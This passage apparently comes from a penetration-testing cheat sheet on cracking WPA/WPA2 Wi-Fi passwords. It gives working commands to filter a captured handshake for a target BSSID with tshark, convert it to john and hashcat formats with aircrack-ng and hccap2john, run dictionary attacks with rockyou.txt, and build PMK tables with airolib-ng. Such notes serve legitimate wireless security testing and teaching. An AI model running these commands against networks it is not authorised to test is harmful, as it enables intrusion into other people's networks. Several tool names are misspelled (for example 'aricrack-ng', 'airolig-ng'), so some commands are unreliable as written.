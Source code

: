 Also it is recommended filtering with the target BSSID.

```
tshark -r Capture-01.cap -Y "(wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol) && wlan.addr==20:34:fb:b1:c5:53" -w filteredCapture -F pcap 2>/dev/null
```

IF you want to do a doble analysis you may change `-Y` parameter to `-R "FILTER" -2`

```
tshark -r Capture-01.cap -R "(wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol) && wlan.addr==20:34:fb:b1:c5:53" -2 -w filteredCapture -F pcap 2>/dev/null
```

## Hash extraction

First we need to save our handshaek in HCCAP to after use `hccap2john` and crack it.

```
aircrack-ng -J capture Capture-01.cap   # For john
hccap2john capture.hccap > handshake.hash 


aricrack-ng -j capture Capture-01.cap   # For hashcat
```

## Cracking the hanshake

### Dictionary Attack

```
john --wordlist=/usr/share/wordlist/rockyou.txt handshake.hash --format=wpapsk
john --show --format=wpapsk handshake.hash

aircrack-ng -w /usr/share/wordlist/rockyou.txt Capture-01.cap

hashcat -m 2500 -d 1 capture.hccapx /usr/share/wordlists/rockyou.txt --force -w 3
hashcat --show -m 2500 capture.hccapx
```

### Rainbow Table

**Airolib + Aircrack**

With `airolib` we can create a dictionary with PMKS.

```
airolig-ng passwords-airolib --import passwd /usr/share/wordlists/rockyou.txt
echo "<ESSID>" > essid.lst
airolib-ng passwords-airolib --import essid essid.lst

airolib-ng passwords-airolib --stats   #Test if all is working correctly

airolib-ng passwords-airolib --clean all  #Clean the wordlists to ileggible characters

airolib-ng passwords-airolib --batch  #Create the wordlists
```
